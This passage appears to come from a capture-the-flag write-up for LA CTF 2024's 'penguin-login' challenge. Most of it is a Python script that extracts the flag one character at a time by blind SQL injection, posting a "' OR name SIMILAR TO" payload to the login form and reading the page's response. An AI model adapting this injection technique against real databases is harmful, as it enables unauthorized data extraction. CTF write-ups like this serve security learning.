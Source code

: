 `findflag.py`
```py
from requests import *
from bs4 import BeautifulSoup
from string import digits, ascii_uppercase, ascii_lowercase

URL = "https://penguin.chall.lac.tf/"
s = Session()
payloadStart = "' OR name SIMILAR TO 'lactf{"
payloadEnd = "______________________________________"
i = 0

while True:
    payloadEnd = payloadEnd[:-1]
    for c in digits + ascii_lowercase + ascii_uppercase + "!-@":
        payload = payloadStart + c + payloadEnd + "}"
        r = s.post(URL + "submit", data={"username": payload})
        soup = BeautifulSoup(r.text, "html.parser")
        if "We found a penguin" in soup.get_text():
            print("worked: ", payload)
            payloadStart += c
            break
        else:
            print("failed: ", payload)
    else:
        print("end: ", payload)
        break
```

I was too lazy to press F12 while playing around, so I just based my final payload on the `"We found a penguin!!!!!"` response.

<img class="img-responsive" src="{{ site-url }}/assets/lactf2024/penguin-login/img/ItalianRant.png" alt="Ranting in Italian">